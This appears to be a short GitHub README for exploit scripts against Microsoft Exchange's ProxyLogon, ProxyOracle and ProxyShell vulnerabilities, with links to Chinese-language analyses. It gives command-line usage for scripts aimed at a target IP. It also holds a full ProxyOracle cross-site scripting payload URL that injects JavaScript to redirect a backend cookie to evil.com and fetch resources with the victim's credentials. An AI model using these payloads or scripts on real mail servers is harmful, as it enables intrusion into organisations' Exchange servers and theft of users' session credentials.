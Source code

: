 # ProxyVulns

### ProxyLogon

`Usage: python3 26855.py 1.1.1.1`

### ProxyOracle

``` bash
https://ews.lab/owa/auth/frowny.aspx?app=people&et=ServerError&esrc=MasterPage&te=\&refurl=}}};document.cookie=`X-AnonResource-Backend=@evil.com:443/path/any.php%23~1941962753`;document.cookie=`X-AnonResource=true`;fetch(`/owa/auth/any.skin`,{credentials:`include`});//

Usage: python3 31196.py 1.1.1.1 'cdata=xxx; cadataTTL=yyy; ...'
```

### ProxyShell

`Wait For Update`

## Reference

https://hosch3n.github.io/2021/08/22/ProxyLogon%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/

https://docs.microsoft.com/en-us/exchange/architecture/mailbox-servers/recreate-arbitration-mailboxes?view=exchserver-2019

https://hosch3n.github.io/2021/08/23/ProxyOracle%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/

https://github.com/mwielgoszewski/python-paddingoracle

https://hosch3n.github.io/2021/08/24/ProxyShell%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/